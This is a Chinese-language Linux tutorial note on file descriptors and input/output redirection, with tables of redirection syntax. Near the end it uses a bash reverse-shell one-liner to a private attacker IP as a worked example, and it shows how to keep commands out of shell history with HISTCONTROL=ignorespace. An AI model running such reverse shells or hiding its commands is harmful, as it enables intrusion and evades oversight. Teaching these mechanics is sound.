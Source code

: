 ```yaml
---
title: 课时3-4.3-文件描述符和重定向
url: https://www.yuque.com/u29002979/ep2zrx/pkn89rtkvxtgb275_kog1yz
---
```


<a name="zETHm"></a>

# 文件描述符 File Descriptor

| ID | 描述 | 设备 |
| --- | --- | --- |
| 0 | 标准输入(stdin) | 键盘 |
| 1 | 标准输出(stdout) | 显示器 |
| 2 | 标准错误输出(stderr) | 显示器 |

<a name="yGRgE"></a>

# 重定向

|  符号 |  类别 |
| --- | --- |
| >和>> | 输出重定向 |
| &> | 表示将一个流(stream)重定向到另一个文件描述符(file descriptor) |
| <和<< | 输入重定向 |

重定向:改变输入输出的方向

<a name="t8iIu"></a>

## 输出重定向

|  类别 |  命令格式 |  示例 |
| --- | --- | --- |
| 标准输出
重定向 | command >file | Is / 1> test.txt (1可以省略) |
|  | command >>file | Is / 1>>test.txt (1可以省略) |
| 标准错误输出
重定向 | command 2>file | find / -name "aaa" 2>err.txt |
|  | command 2>> file | find / -name "aaa" 2>/dev/null |
| 输出和错误重定向 | command >file 2>&1 | find / -name "aaa" >test.txt 2>&1 |

注释：>会覆盖内容，>>是追加内容 <a name="HNewB"></a>

## 输入重定向

|  命令格式 |  示例 |
| --- | --- |
| command < file | 将file文件中的内容作为command的输入(省略了0) |
| command < END | 从标准输入(键盘)中读取数据，直到遇见分界符END才停止 |
| command < file1 > file2 | 将file1作为command的输入，并将command的处理结果输出到file2 |
| wc -l < test.txt | 统计test.txt文件中有多少行文本 |
| wc -l << END | 统计用户在终端输入的文本的行数 |

<a name="iwGNl"></a>

#### bash反弹连接案例

`bash -i >& /dev/tcp/192.168.142.44/7777 0>&1`

bash -i 在靶机打开交互式的Shell
/dev/tcp/192.168.142.44/7777 连接到攻击机IP端口
\>&和&>等价，代表标准输出1 +错误输出2;把靶机的输出重定向到攻击机——接收结果用。
0>&1，左边是标准输入。右边是标准输出，输出重定向。把靶机的输入重定向为攻击机的输出——接收命令用。
所以，靶机的输入输出都到了攻击机上。

    echo HISTCONTROL=ignorespace >> ~/.bashrc
    source ~/.bashrc
    vim ~/.bashrc
    history
      cd .
    history
    空两格输入命令后，不会记录在history中
